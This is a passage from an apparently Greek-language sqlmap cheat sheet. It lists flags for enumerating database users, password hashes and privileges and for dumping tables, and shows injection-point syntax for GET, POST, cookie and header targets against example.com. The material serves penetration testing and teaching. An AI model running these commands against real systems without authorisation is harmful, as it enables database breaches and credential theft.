#### Εσωτερικό
```bash
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```
#### Δεδομένα DB
```bash
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```
## Injection place

### Από την καταγραφή του Burp/ZAP

Καταγράψτε το αίτημα και δημιουργήστε ένα αρχείο req.txt
```bash
sqlmap -r req.txt --current-user
```
### Εισαγωγή Αιτήματος GET
```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
### Εισαγωγή Αιτήματος POST
```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```
### Εισαγωγές σε Κεφαλίδες και άλλες Μεθόδους HTTP
```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```
### Υποδείξτε τη συμβολοσειρά όταν η ένεση είναι επιτυχής
```bash
--string="string_showed_when_TRUE"
```
### Eval
